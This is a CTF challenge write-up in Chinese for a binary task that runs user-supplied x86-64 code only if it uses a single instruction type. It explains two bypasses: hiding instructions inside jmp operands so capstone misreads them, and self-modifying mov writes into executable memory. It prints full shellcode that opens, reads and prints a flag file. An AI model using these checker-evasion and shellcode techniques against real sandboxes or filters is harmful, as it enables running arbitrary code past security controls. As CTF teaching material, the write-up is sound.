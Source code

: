 # [Binary] 简单题

- 命题人：liangjs
- 题目分值：350 分

## 题目描述

<blockquote>
<p>题太难了？来看看简单题吧！</p>
<p>只有一种指令的机器，够简单吧！</p>
</blockquote>
<p>你可以提交一段 x86-64 机器码，题目会检查这段机器码<strong>只包含一种汇编指令</strong>，然后运行它。</p>
<p><strong>Flag 位于服务器磁盘中的 <code>/flag.txt</code> 文件。</strong></p>
<div class="well">
<p><strong>第二阶段提示：</strong></p>
<p>指令种类是在运行前检查的，运行时并非只能执行一种指令。</p>
</div>

**【终端交互：连接到题目】**

**[【附件：下载题目源码（prob10.zip）】](attachment/prob10.zip)**

## 预期解法

### 使用 jmp

用 `jmp` 指令可以跳到指令中间，让处理器从中间开始解码，从而绕过指令种类的限制。

`jmp` 指令的格式参考 https://www.felixcloutier.com/x86/jmp 

构造如下指令片段
```asm
EB 01            ; jmp $+3
E9 XX XX XX XX   ; container jmp <...> 
```

我们把 relative near jump (`E9 XX XX XX XX`) 用作其他指令的容器，其中 `XX` 填写为想要执行的任意指令的机器码。
容器本身的 `jmp` 并不会被执行到，因为我们在前面添加了一个 short jump (`EB 01`)，使控制流跳转到 `XX` 的位置。

题目使用 capstone 来检查指令种类，这个库只会按字节顺序解码指令，不考虑指令本身的语义，因此会把上述片段识别为两个 `jmp` 指令。

可以把多个这种片段拼在一起，就能执行任意指令了。

由于容器 `jmp` 最多能装4个字节，我们 shellcode 里的指令长度最大是4，写出这样的 shellcode 并不困难，把长的指令替换为等价的一系列短指令即可，下面是一个示例。另外，如果指令长度小于4，可以在它后面填充 `nop` 指令凑齐4字节。

```asm
.intel_syntax noprefix

; put "flag.txt" on stack
xor eax, eax
mov cl, 16
mov ax, 0x7478
shl rax, cl
mov ax, 0x742e
shl rax, cl
mov ax, 0x6761
shl rax, cl
mov ax, 0x6c66
push 0
push rax

; fd = open("flag.txt", O_RDONLY)
xor eax, eax
mov ax, 2
mov rdi, rsp
xor esi, esi
syscall

; size = read(fd, buf_rsp, 1<<7)
mov edi, eax
xor eax, eax
mov rsi, rsp
xor edx, edx
inc edx
shl edx, 7
syscall

; write(1, buf_rsp, size)
mov edx, eax
xor eax, eax
inc eax
mov edi, eax
syscall
```

### 使用 mov

选手上传的代码会被放入 mmap 开辟的一段内存中，权限为“可读可写可执行”，因此可以构造自修改的代码。

用 `mov` 指令和相对寻址，可以直接修改后续指令的内容，示例如下：
```asm
movq [rip+100], 0x11111111
movq [rip+200], 0x22222222
...
```

整个 payload 分为两段，前一段用一串 `mov` 把后一段修改掉，后一段一开始随便放些 `mov` 来占位，之后被修改为实际的 shellcode。

由于出题人太懒了，具体代码请参考选手 writeup。

除了 `mov`，还可以使用 `add`, `xor` 等算术指令来修改代码，做法是类似的。
